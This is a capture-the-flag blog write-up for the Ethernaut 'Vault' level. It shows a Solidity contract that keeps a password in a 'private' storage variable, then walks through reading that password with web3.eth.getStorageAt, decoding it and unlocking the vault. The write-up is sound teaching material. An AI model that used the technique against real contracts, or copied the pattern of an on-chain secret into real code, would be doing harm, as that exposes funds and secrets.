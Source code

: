 ```yaml
---
layout: post
title: Ethernaut - 8. Vault
date:  2022-08-28
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌕🌑🌑🌑
> Unlock the vault to pass the level!

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
## Writeup
How can we get private variable password ? Well, There is an important method everyone should know : `web3.eth.getStorageAt(...)`, checkout [web3.js document](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat) to get details. 
> State variables marked as private and local variables are still publicly accessible.

1. Get new Instance.
2. Call the method
    ``` javascript

    await contract.locked()
    // true

    ```
3. Call the method
    ``` javascript

    await web3.eth.getStorageAt('0x7B794D77e945A806b2c6Ca41cb4bB6977F37D340', 1);
    // '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

    ```
4. Call web3 method
    ``` javascript

    web3.utils.toAscii('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
    // 'A very strong secret password :)'

    ```
5. Call the method
    ``` javascript

    await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')

    ```
6. Call the method
    ``` javascript

    await contract.locked()
    // false

    ```
7. Submit instance ξ( ✿＞◡❛)